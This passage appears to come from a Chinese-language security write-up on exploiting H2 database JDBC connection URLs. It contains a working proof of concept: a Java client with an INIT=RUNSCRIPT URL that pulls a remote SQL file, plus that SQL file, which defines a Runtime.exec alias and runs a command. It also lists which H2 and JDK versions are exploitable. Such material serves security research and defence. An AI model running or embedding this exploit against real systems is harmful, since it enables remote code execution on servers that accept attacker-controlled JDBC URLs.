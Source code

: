 ```xml
<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
    <scope>runtime</scope>
</dependency>
```

无JDK版本限制通用打jdbc Attack：

```java
public class H2database_JDBC_Client {
    public static void main(String[] args) throws Exception {
        String ClassName = "org.h2.Driver";
        String JDBC_Url = "jdbc:h2:mem:test;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'";
        String username = "root";
        String password = "root";
        Class.forName(ClassName);
        Connection connection = DriverManager.getConnection(JDBC_Url, username, password);
    }
}
```

本地http暴露一个poc.sql：

```sql
DROP ALIAS IF EXISTS shell;
CREATE ALIAS shell AS $$void shell(String s) throws Exception {
    java.lang.Runtime.getRuntime().exec(s);
}$$;
SELECT shell('cmd /c calc');
```

因为我们使用的POC需要执行两个SQL语句,第一个是CREATE ALIAS,第二个是EXEC,这是两个步骤。`session.prepareCommand`不支持多个 sql 语句执行。 因此,我们使用 RUNSCRIPT 从远程服务器加载 sql。

`$$ ... $$`这是 H2 用于定义多行字符串（类似 PostgreSQL）的语法，包裹的内容会被作为函数体进行编译。

能够顺利弹出计算器，因为根本没有反射去利用`java.*`包下非public修饰的属性和方法。不过需要出网

### JDK11下的h2

对于H2 < 1.4.198，可以直接使用网上公开的JDBC Attack URL 

对于H2 < 2.0.206，可以使用JNDI注入 

对于H2 < 2.1.210，可以使用下面的POC，见下一节

对于H2 >= 2.1.210，Web console需要找一个已经存在的数据库文件才能利用。 对于非Web console环境，没有版本限制

### h2 最新版本 JDK11-16

H2 WebConsole < 2.1.210或者非WebConsole(代码or配置文件环境) 的最新版本(2.3.232)，JDK 11-16的情况下，h2database有三种利用方法：

>Litch1 翻了 `CREATE ALIAS` 实现的源代码，发现在 SQL 语句中对于 JAVA 方法的定义被交给了源代码编译器。有三种支持的编译器：Java/Javascript/Groovy
>
>h2数据库最低只支持JDK11，所以再见了JDK8
